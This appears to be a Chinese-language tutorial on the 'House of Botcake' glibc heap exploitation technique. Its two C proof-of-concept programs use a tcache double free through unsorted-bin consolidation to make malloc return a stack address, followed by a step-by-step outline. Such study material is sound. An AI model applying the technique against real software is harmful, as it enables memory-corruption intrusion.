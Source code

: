 [TOC]

# house of botcake

### 介绍

House of botcacke 合理利用了 Tcache 和 Unsortedbin 的机制，同一堆块第一次 Free 进 Unsortedbin 避免了 key 的产生，第二次 Free 进入 Tcache，让高版本的 Tcache Double Free 再次成为可能。

### POC

#### glibc 2.27 - 2.31

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
    intptr_t stack_var[4];
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    
    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);
    
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);

    free(a);// a is already freed
  
 
    intptr_t *b = malloc(0x120);
    b[0x120/8-2] = (long)stack_var;

    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);
    printf("Got control on target/stack!\n\n");

    return 0;
}
```

#### glibc 2.32--2.39

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>


int main()
{
    
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);


    // prepare the target
    intptr_t stack_var[4];

    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    

    for(int i=0; i<7; i++){
        free(x[i]);
    }

    free(a);

    free(prev);

    malloc(0x100);
    free(a);// a is already freed
    intptr_t *b = malloc(0x120);
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;
    
    // take target out
    puts("Now we can cash out the target chunk.");
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);

    return 0;
}
```

### 利用思路

1. 申请7个0x100大小的chunk
2. 在申请大小为0x100的chunk1 ，chunk2 
3. free 7个chunk填充tcache
4. free chunk2,chunk1 ，使其进入unsorted bin，并因为连续所以合并。
5. malloc 0x100，从tache里取出一个free chunk
6. free chunk2 使其进入 tache bin，这样tache bin中就有了unsorted bin中的一块小内存
7. malloc 0x120 从 unsorted bin中分割出来一块内存，可覆盖chunk2的next指针
8. 伪造next指针

